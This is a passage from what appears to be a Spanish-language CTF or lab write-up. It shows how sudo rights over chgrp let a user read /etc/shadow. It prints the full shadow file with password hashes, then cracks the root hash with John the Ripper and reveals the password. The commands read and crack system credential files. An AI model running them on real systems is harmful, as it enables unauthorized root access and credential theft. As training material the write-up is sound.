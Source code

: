 Vamos a cambiar el grupo del archivo `shadow` por el de nuestro nombre con otro archivo que hayamos creado.

```shell
touch /tmp/test
sudo chgrp --reference=/tmp/test /etc/shadow
cat /etc/shadow
```

Info:

```
root:$1$root$dZ6JC474uVpAeG8g0oh/7.:18917:0:99999:7:::
daemon:*:18916:0:99999:7:::
bin:*:18916:0:99999:7:::
sys:*:18916:0:99999:7:::
sync:*:18916:0:99999:7:::
games:*:18916:0:99999:7:::
man:*:18916:0:99999:7:::
lp:*:18916:0:99999:7:::
mail:*:18916:0:99999:7:::
news:*:18916:0:99999:7:::
uucp:*:18916:0:99999:7:::
proxy:*:18916:0:99999:7:::
www-data:*:18916:0:99999:7:::
backup:*:18916:0:99999:7:::
list:*:18916:0:99999:7:::
irc:*:18916:0:99999:7:::
gnats:*:18916:0:99999:7:::
nobody:*:18916:0:99999:7:::
_apt:*:18916:0:99999:7:::
systemd-timesync:*:18916:0:99999:7:::
systemd-network:*:18916:0:99999:7:::
systemd-resolve:*:18916:0:99999:7:::
messagebus:*:18916:0:99999:7:::
sshd:*:18916:0:99999:7:::
systemd-coredump:!*:18916::::::
mysql:!:18917:0:99999:7:::
sophie:$y$j9T$mD6gcz0.6rC4ZwGpDem3o0$HzDd6YXLy3Dsht17WVVX7v7ReGcJ9PXhG/B3bx4Nz/C:18917:0:99999:7:::
```

Veremos que ha funcionado por lo que vamos a intentar `crackear` la contraseña de `root` a ver si funciona.

> hash.root

```
root:$1$root$dZ6JC474uVpAeG8g0oh/7.:18917:0:99999:7:::
```

```shell
john --format=crypt --wordlist=<WORDLIST> hash.root
```

Info:

```
Using default input encoding: UTF-8
Loaded 1 password hash (crypt, generic crypt(3) [?/64])
Cost 1 (algorithm [1:descrypt 2:md5crypt 3:sunmd5 4:bcrypt 5:sha256crypt 6:sha512crypt]) is 2 for all loaded hashes
Cost 2 (algorithm specific iterations) is 1 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
barbarita        (root)     
1g 0:00:00:00 DONE (2025-05-22 03:56) 1.449g/s 41321p/s 41321c/s 41321C/s chiquititas..281086
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```
